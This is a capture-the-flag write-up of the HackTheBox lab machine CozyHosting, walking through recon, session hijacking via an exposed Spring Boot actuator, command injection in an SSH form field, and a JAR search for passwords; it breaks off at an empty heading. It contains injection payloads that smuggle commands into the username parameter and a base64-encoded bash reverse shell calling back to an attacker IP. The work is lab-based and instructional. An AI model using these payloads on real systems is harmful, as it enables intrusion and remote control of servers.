









---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# CozyHosting

## Summary


## Recon

### Port Scan

Let's start with our usual [port scan](../../../tools/tools/port-scanners/nmap.md#nmap-scan).


```bash
# Using the nmap-scan script
$ nmap-scan.sh 10.10.11.230
Creating directory...
[sudo] password for x7331:
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap

# Displaying the results
$ cat scans/aggressive_scan.nmap
# Nmap 7.94SVN scan initiated Sat Apr 27 18:16:46 2024 as: nmap -T4 --min-rate=10000 -A -p 22,80, -oA scans/aggressive_scan 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
```


Not much there, just 2 ports open: an SSH server and a web server which redirects us to `http://cozyhosting.htb`. The latter probably will be our main focus, so let's add this to our local DNS file.

```bash
$ grep cozy /etc/hosts
10.10.11.230    cozyhosting.htb
```

### Web Enumeration

As usual, we will go through our [web checklist](../../../tools/tools/web/web-checklist.md) by checking what web technologies are there, manually inspecting the web server, and start our fuzzing scans.


```bash
# Checking what technologies the web server uses
$ whatweb cozyhosting.htb
http://cozyhosting.htb [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], Email[info@cozyhosting.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], Lightbox, Script, Title[Cozy Hosting - Home], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0], nginx[1.18.0]
```


Visiting the web server via our browser, it seems like almost nothing but the `/login` page works. Trying to login with weak credentials (`admin:admin`) does not work. Searching for known vulnerabilities and default credentials does not lead us anywhere either. Our [fuzzing](../../../tools/tools/web/dirbusting/) scans for subdomains and vhosts do not return anything, and the directory scan only reveals an `/admin` directory, which we can't access without credentials, and an `/error` directory (Figure 1).


```bash
# Dirbusting the domain
ffuf -u http://cozyhosting.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -c -ac -ic
```


<figure><figcaption><p>Figure 1: Dirbusting the domain with <code>fuff</code>.</p></figcaption></figure>

## Foothold

### Identifying Spring Boot

Checking the `/error` directory reveals something interesting: a `Whitelabel Error Page` (Figure 2.2). This is the default error page of the **Spring Boot framework** (Figure 2.4).


[Spring](https://spring.io/projects/spring-framework) is a framework for building Java applications, and [Spring Boot](https://spring.io/projects/spring-boot) is an extension of Spring that focuses on simplifying the setup and configuration of Spring applications, especially for web applications. It provides defaults and conventions to minimize the boilerplate code required to get started with a Spring project.


<figure><figcaption><p>Figure 2: The <code>/error</code> directory reveals the framework in use.</p></figcaption></figure>

Knowing that, we can re-fuzz the domain using a Spring Boot-specific wordlist. Doing that returns much more interesting results than our first attempt. Spring Boot's [actuator](https://www.baeldung.com/spring-boot-actuators#understanding-actuator) is a set of built-in tools and features that provide insight into the internal state of the application when it's running in a production environment and its endpoints should not be public facing, as it is mostly used as a debugging tool. Out of them, [`actuator/sessions`](https://www.baeldung.com/spring-boot-actuators#3-predefined-endpoints) is probably the one we should focus as it "_lists HTTP sessions, given we are using Spring Session_" (Figure 3).


```bash
# Fuzzing the domain with a framework-specific wordlist
ffuf -u http://cozyhosting.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt -c -ac -ic
```


<figure><figcaption><p>Figure 3: Fuzzing the domain with a framework-specific list.</p></figcaption></figure>

### Leveraging Actuator

Our plan is as follows:

1. We will list all active Sping Boot sessions by visiting the `/actuator/sessions` endpoint (Figure 4.1).
2. If an account is authenticated, we will steal its cookie value (Figure 4.2).
3. Then, we will use its cookie, to make the web application to think that we are him, and hijack its session (Figure 4.3).
4. Finally, if all goes well, we will be logged in with the privileges of the hijacked account (Figure 4.4).

<figure><figcaption><p>Figure 4: Leveraging <code>kanderson's</code> cookie to log into as privileged users.</p></figcaption></figure>

There are not much on the dashboard page, other than an SSH function at the bottom of the page. Putting the IP address of our attack host results in an error message (Figure 5).

<figure><figcaption><p>Figure 5: The SSH functionality of Cozyhosting.</p></figcaption></figure>

### Command Injection

Intercepting and playing around with the above HTTP request in Burp, reveals that it uses the `ssh` bash command (Figure 6), so it is probable that we can perform some form of [command injection](../../../tl-dr/tl-dr/web/command-injection.md) and get a reverse shell back.

<figure><figcaption><p>Figure 6: Sending an empty <code>username</code> parameter leads to the <code>ssh</code> help menu.</p></figcaption></figure>

By sending a username and our attack host's IP address, we get a `Connection time out` error message (Figure 7).

<figure><figcaption><p>Figure 7: Figuring out how the SSH functionality works at the back end.</p></figcaption></figure>

Putting a common CI[^1] testing payload, gives us back a different error message related to **whitespaces** (Figure 8).

```
# Payload 1
host=10.10.14.22&username=;sleep 2;
```

<figure><figcaption></figcaption></figure>

Whitespaces are commonly blacklisted, but, luckily for us, there are a [lot of ways](../../../tl-dr/tl-dr/web/command-injection.md#blacklisted-characters) to bypass this restriction, one of them is [brace expansion](https://www.geeksforgeeks.org/bash-brace-expansion-in-linux-with-examples/) (Figure 9).

```
# Payload 2
host=10.10.14.22&username=;{sleep,2};
```

<figure><figcaption><p>Figure 9: Bypassing whitespace restrictions.</p></figcaption></figure>

We are successful on injecting our `sleep` command, so we now have to create a revershel shell payload. We will need to [encode our payload](../../../tl-dr/tl-dr/web/command-injection.md#encoding) and get rid any "dangerous" characters, such as `+` and `=`, which have their own interpretation within HTTP requests.

```bash
# Encoding the revershe shell code
$ echo 'bash -i >& /dev/tcp/10.10.14.22/1337 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi8xMzM3IDA+JjEK
# Removing the '+' symbols
$ echo 'bash -i  >& /dev/tcp/10.10.14.22/1337  0>&1' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAgMD4mMQo=
# Removing the equal sign at the end
$ echo 'bash -i  >& /dev/tcp/10.10.14.22/1337  0>&1 ' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAgMD4mMSAK
```

Once our encoded payload is ready, we will pipe it for decoding and then to bash, while making sure to not include any whitespaces among the piped commands. With that, we will start a listener, send the request, and catch a reverse shell back (Figure 10).


```
# Payload 3
host=10.10.14.22&username=;{echo,YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAgMD4mMSAK}|{base64,-d}|bash;
```


<figure><figcaption><p>Figure 10: Injecting the payload and catching the reverse shell.</p></figcaption></figure>

Before moving forward, we make our life easer by [upgrading our shell](../../../tools/tools/shells/upgrade.md#script-python).

```bash
# Upgrading our shell
which script
script /dev/null -c /bin/bash
^Z
echo $TERM && stty size
stty raw -echo; fg
stty rows 51 cols 209
export TERM=xterm
```

## Privilege Escalation

### System Enumeration

In the working directory there is a JAR file which contains a lot of files, so we will transfer it to our attack host and inspect it there (Figure 11).

<figure><figcaption><p>Figure 11: Transferring the JAR file to our attack host.</p></figcaption></figure>

This JAR contains 47 directories and 266 files, so enumerating them 1 by 1 is definetely not an option. We will create a simple bash script to do that for us which will then tweak if needed.


```bash
#!/bin/bash

# Read every file starting from the cj_jar directory
find ch_jar/ -type f 2>/dev/null | while read -r file; do
        # Check if the file contains the word password
        if [[ -n $(cat "${file}" | grep password) ]]; then
                # Print the filename
                echo -e "${file} \n"
                # Print the line along with the previous 5 lines
                echo -e "Content:\n $(cat ${file} | grep --before-context=5 password) \n"
        fi
done
```


We will give the script execute permissions (`x`) and hope for the best (Figure 12).

```bash
# Assigning execute pemission to the script
$ chmod +x search_pass.sh
# Executing the script
$ ./search_pass.sh
```

<figure><figcaption><p>Figure 12: Searching for the <code>password</code> word.</p></figcaption></figure>

### Database Enumeration


[^1]: Command Injection
